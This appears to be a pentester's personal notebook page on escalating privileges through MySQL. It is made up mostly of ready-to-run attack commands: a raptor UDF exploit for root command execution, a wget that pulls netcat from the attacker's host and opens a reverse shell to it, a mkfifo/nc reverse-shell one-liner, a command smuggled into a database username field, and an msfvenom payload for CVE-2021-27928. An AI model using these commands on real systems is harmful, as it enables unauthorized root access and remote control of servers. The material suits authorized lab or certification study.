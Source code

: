 #### Enumeration

```bash - kali
ps aux | grep mysql
```

Is mysql running as root?
```bash - kali
ps aux | grep root | grep mysql
```

If so, folllow [[MySQL#Raptor User Defined Function]]

![[Grep#Grep'n for passwords]]

![[find#Hunting for config files]]

#### Raptor User Defined Function

![[14._MySQL Raptor Service Exploits]]


---
DELETE OR KEEP THE FOLLOWING?

```sql - target
insert into foo values(load_file('/var/www/raptor_udf2.so'));
```

If everything went according to plan, the `do_system` function based on our malicious UDF will grant us root-level command execution. To check this, we can run the `id` command and redirect the output to a file we can read:

```sql - target
select do_system('id > /var/www/out; chown www-data.www-data /var/www/out');
```

```sql - target
\! sh
```

```sql - target
cat /var/www/out
```

![[Pasted image 20220401112428.png]]

```sql - target
exit
```

The command did indeed execute with the highest privileges. To obtain a reverse shell, we can download our copy of the Netcat binary to the target and then run it as root. We'll continue utilizing our running python web server on port 8295.

On Kali:

```bash - kali
which nc
```

```bash - kali
cp /usr/bin/nc .
```

![[Python#Server]]

```sql - target
select do_system('wget http://$KALI:80/nc -O /var/www/nc');
```


```sql - target
select do_system('chmod 777 /var/www/nc');
```

![[rlwrap]]

```sql - target
select do_system('/var/www/nc $KALI 443 -e /bin/bash');
```

---

#### Reverse shell DB injection
![[Pasted image 20220324115631.png|1000]]

![[Pasted image 20221115145406.png]]

First, create the reverse shell file.
```bash - target
cat > script.sh <<EOF
```

```bash - target
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 80 >/tmp/f
```

```bash - target
EOF
```

Make it executable.
```bash - target
chmod +x script.sh
```

Log in to mysql.
```bash - target
mysql -u $USER -p$PASSWORD
```

```sql - target
show databases;
```

```sql - target
use <DATABASE>;
```

```sql - target
show tables;
```

```sql - target
describe <TABLE>;
```

![[Pasted image 20220324115412.png]]

```sql - target
select username, password_expiry from <TABLE>;
```

```sql - target
update <TABLE> set username=' |/tmp/Tools/script.sh';
```

```sql - target
update <TABLE> set password_expiry = (select now() + interval 7 day);
```

```sql - target
select username, password_expiry from <TABLE>;
```

![[Pasted image 20220324115509.png]]

#### CVE-2021-27928

MySQL version 10.3.25

https://github.com/Al1ex/CVE-2021-27928

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf-so -o reverse.so
```

Copy the file to the target machine. Now stand up a listener on port 443 and issue the following command in the MySQL console to trigger the shell.

[[Python#Server]]

[[rlwrap]]

```mysql - target
SET GLOBAL wsrep_provider="/tmp/reverse.so";
```

